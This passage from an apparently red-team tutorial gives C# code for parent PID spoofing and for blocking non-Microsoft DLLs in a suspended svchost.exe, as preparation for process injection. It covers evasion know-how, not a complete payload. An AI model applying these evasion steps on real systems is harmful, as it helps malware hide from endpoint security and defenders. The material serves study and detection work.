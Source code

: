 After we successfully get our parent PID, we can use `OpenProcess` to get a handle to it.
```csharp
IntPtr procHandle = OpenProcess(ProcessAccessFlags.CreateProcess, false, parentProc);
```

Now we can use `InitializeProcThreadAttributeList` to initialize the specified list of attributes for process and thread creation. We need to specify `dwAttributeCount` as 2. One for parent process ID and the other to specify mitigation policy. The other thing we need is the `lpAttributeList`. As the docs on Microsoft say, this parameter can be null to determine the buffer size required to support the specified number of attributes. We are going to determine to buffer size using `Marshal.AllocHGlobal` and providing it `IntPtr.Size` which is 8 for x64 process and 4 for x86 process. As we are targeting x64 specifically this would be 8. We are going to provide this value to `STARTUOINFOEX.lpAttributeList` struct. And then use the same `InitializeProcThreadAttributeList` call.
```csharp
IntPtr lpSize = IntPtr.Zero;
InitializeProcThreadAttributeList(IntPtr.Zero, 2, 0, ref lpSize);

siex.lpAttributeList = Marshal.AllocHGlobal(IntPtr.Size);
InitializeProcThreadAttributeList(siex.lpAttributeList, 2, 0, ref lpSize);
```

Similarly, we can do this with `lpValueProc` which we need to give to `UpdateProcThreadAttribute`. We also need to use `Marshal.WriteIntPtr` to write the parent process handle to `lpValueProc`. This will give us a pointer to the attribute value which we can use.
<br>
Now we can use `UpdateProcThreadAttribute` with providing the attribute list from `STARTUOINFOEX`, the `dwFlags` is reserved so its going to be zero. Then we are going to provide our attribute that we want to update. First its going to be `PROC_THREAD_ATTRIBUTE_PARENT_PROCESS` whose value we already have added in our imports. Next we can provide the pointer to attribute value. The `cbSize` is going to be the size that was specified in the `lpValueProc`, `IntPtr.Size` which would be 8. THe other two are reserved and need to be null.
```csharp
IntPtr lpValueProc = Marshal.AllocHGlobal(IntPtr.Size);
Marshal.WriteIntPtr(lpValueProc, procHandle);
UpdateProcThreadAttribute(siex.lpAttributeList, 0, (IntPtr)PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, lpValueProc, (IntPtr)IntPtr.Size, IntPtr.Zero, IntPtr.Zero);
```

Once that is done, our PPID Spoofing should work. We can use the same process for blocking non Microsoft DLLs as well. The attribute is going to be `PROC_THREAD_ATTRIBUTE_MITIGATION_POLICY` and the value `lpMitigationPolicy` we are providing would be `PROCESS_CREATION_MITIGATION_POLICY_BLOCK_NON_MICROSOFT_BINARIES_ALWAYS_ON` which specifies that only Microsoft signed DLLs should be injected in the process.
```csharp
IntPtr lpMitigationPolicy = Marshal.AllocHGlobal(IntPtr.Size);
Marshal.WriteInt64(lpMitigationPolicy, PROCESS_CREATION_MITIGATION_POLICY_BLOCK_NON_MICROSOFT_BINARIES_ALWAYS_ON);
UpdateProcThreadAttribute(siex.lpAttributeList, 0, (IntPtr)PROC_THREAD_ATTRIBUTE_MITIGATION_POLICY, lpMitigationPolicy, (IntPtr)IntPtr.Size, IntPtr.Zero, IntPtr.Zero);
```

If that works, when you use `CreateProcess` to create a process, it should have the parent process ID as the one we specified and the mitigation policy should also be applied. The only change that is needed is that with the suspended flag like we have in our process injection we also need to specify `EXTENDED_STARTUPINFO_PRESENT` and the reference that used to be to `STARTUPINFO` is now going to be `STARTUOINFOEX` which we specified as `siex`. I added a `Console.ReadKey()` which would pause the process so we can check if the attributes work. We also need to add the rest of the code from the process injection after this.
```csharp
string app = @"C:\Windows\System32\svchost.exe";
bool procinit = CreateProcess(app, null, IntPtr.Zero, IntPtr.Zero, false, CreationFlags.SUSPENDED | CreationFlags.EXTENDED_STARTUPINFO_PRESENT, IntPtr.Zero, null, ref siex, ref pi);
Console.WriteLine("[*] Process Created. Process ID: {0}", pi.dwProcessId);
Console.ReadKey();
```
